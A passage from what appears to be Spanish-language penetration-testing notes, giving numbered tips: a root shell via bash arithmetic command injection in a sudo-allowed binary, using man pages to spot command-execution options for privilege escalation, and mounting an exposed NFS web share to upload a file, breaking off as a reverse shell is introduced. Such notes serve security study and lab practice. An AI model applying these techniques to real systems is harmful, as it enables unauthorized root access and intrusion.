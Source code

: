 sudo /bin/cube

y supongamos que nos permita intruducir numeros:

introducimos:

a[$(/bin/sh >&2)]+666

y listo somos root

-------------------------------------------------------------------------------

## 61.- Carpeta donde se almacena los reportes de sqlmap

-------------------------------------------------------------------------------

## 62.- Si no conosco que hace un binario puedo ejecutar el comando

man nombre_binario

por ejemplo no conosco que hace el binario /usr/bin/multitail

ejecuto man /usr/bin/multitail

si veo opciones como -l para ejecutar comandos veo la forma de escalar privilegios - revisar el bloc de escalar privilegios en la parte de multitail en sudo -l

-------------------------------------------------------------------------------

## 63.- si tenemos la opción de subir archivos por NFS podemos montarnos sistema de archivos en nuestro kali y subir un archivo.

listar recursos compartidos:

showmount -e 192.168.42.137

ejemplo:

showmount -e 192.168.42.137

me salió

Export list for 192.168.42.137:
/var/www/html *

significa que podemos traernos el sistema de archivos de /var/www/html *


creamos una carpeta para montarnos el sistema:

mkdir -p /mnt/nfs_share

montamos el sistema

sudo mount -t nfs 192.168.42.137:/var/www/html /mnt/nfs_share

creamos una reverse shell:
